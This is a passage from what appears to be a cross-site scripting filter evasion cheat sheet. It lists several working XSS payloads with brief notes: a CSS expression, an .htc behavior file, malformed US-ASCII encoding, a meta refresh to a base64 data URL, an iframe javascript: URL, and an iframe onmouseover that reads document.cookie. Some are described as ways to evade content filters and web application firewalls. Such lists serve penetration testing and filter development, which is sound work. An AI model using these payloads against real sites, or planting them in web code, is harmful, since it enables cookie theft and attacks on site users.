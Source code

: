 ```html
<XSS STYLE="xss:expression(alert('XSS'))"></XSS>
```

## Local htc File

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

```html
<XSS STYLE="behavior: url(xss.htc);"></XSS>
```

## US-ASCII Encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

```html
`¼script¾alert(¢XSS¢)¼/script¾`
```

## META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```html
<meta
  http-equiv="refresh"
  content="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"
/>
```

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

```html
<iframe src="javascript:alert('XSS');"></iframe>
```

## IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

```html
<iframe src="#" onmouseover="alert(document.cookie)"></iframe>
```
